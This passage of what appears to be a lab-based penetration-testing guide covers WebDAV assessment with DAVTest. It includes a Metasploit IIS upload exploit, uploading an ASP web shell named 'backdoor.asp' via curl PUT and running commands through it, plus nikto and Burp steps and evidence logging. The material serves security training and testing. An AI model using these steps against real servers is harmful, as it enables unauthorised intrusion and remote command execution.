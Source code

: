 ```bash
# DAVTest identifies ASP execution capability
davtest -auth bob:password_123321 -url http://target/webdav

# Metasploit exploitation based on findings
msfconsole
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS target
set HttpUsername bob  
set HttpPassword password_123321
set PATH /webdav/
exploit
```

#### Integration with Web Shell Management
```bash
# Based on davtest results, select appropriate web shell
# If ASP execution confirmed:
cp /usr/share/webshells/asp/cmd.asp ./backdoor.asp

# Upload using cadaver or curl
curl -X PUT -T backdoor.asp -u user:pass http://target/webdav/backdoor.asp

# Access web shell for command execution
curl "http://target/webdav/backdoor.asp?cmd=whoami"
```

### Integration with Automated Scanning Tools

#### Nikto Integration
```bash
# Use nikto for additional WebDAV testing
nikto -h http://target -mutate 1

# Follow up with davtest for specific capabilities
davtest -auth discovered_creds -url http://target/webdav
```

#### Burp Suite Integration
- **Proxy Configuration:** Route DAVTest through Burp for request analysis
- **Manual Testing:** Use Burp Repeater to test specific file uploads
- **Payload Modification:** Modify DAVTest payloads using Burp Intruder

---

## 📝 Documentation and Reporting

### Evidence Collection and Documentation

#### Command Execution Logging
```bash
# Create comprehensive evidence log
echo "WebDAV Security Assessment with DAVTest" > webdav_assessment.txt
echo "==========================================" >> webdav_assessment.txt
echo "Date: $(date)" >> webdav_assessment.txt
echo "Target: http://demo.ine.local/webdav" >> webdav_assessment.txt
echo "Tester: [Your Name]" >> webdav_assessment.txt
echo "" >> webdav_assessment.txt

# Log all davtest commands and output
echo "$(date): davtest -url http://demo.ine.local/webdav" >> webdav_assessment.txt
davtest -url http://demo.ine.local/webdav | tee -a webdav_assessment.txt
echo "" >> webdav_assessment.txt

```